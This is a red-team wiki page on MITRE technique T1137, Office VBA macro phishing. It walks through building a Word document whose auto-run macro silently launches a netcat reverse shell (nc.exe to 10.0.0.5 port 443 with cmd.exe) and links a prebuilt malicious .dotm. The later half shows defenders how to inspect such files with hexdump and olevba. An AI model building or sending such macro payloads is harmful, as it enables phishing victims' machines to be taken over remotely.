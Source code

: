 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode %}

{% code title="C:\\tools\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

This is how it should look roughly in:

![](../../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../../.gitbook/assets/macros-body-1.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../../.gitbook/assets/macros-filename.png)

{% file src="../../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand.

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious.

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin` and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" caption="" %}

